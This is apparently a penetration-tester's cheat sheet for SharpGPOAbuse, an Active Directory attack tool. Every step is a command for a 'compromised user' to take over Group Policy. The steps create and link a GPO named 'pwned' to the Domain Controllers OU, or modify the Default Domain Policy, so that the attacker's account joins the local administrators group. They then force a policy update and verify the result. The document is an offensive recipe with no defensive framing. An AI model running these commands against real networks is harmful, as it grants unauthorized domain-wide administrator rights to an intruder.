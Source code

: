 # SharpGPOAbuse 

## Github repo: https://github.com/byronkg/SharpGPOAbuse/releases/tag/1.0

### Use case: Our compromised user has the permissions to create GPOs OR modify already existing GPOs

### Usage:

## GPO Creation

 - New-GPO -Name pwned -Comment "You have been pwned" (Create a new GPO)

 - New-GPLink -Name pwned -Target "OU=Domain Controllers,DC=DOMAIN,DC=LOCAL" -LinkEnabled Yes (Create a new GPLink)

 - .\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount OUR_COMPROMISED_ACCOUNT --gponame pwned

 - gpupdate /force

## GPO Modification

 -  Get-GPO -All | Select-Object -ExpandProperty DisplayName (Enumerate All GPOs)

 -  ./SharpGPOAbuse.exe --AddLocalAdmin --UserAccount USER --GPOName "Default Domain Policy" (Modify an existing GPO to add our user to local administrators group)

 -  gpupdate /force (Immediately apply our GPO modification)

 -  net localgroup Administrators (Verify our user is in the local administrators group)
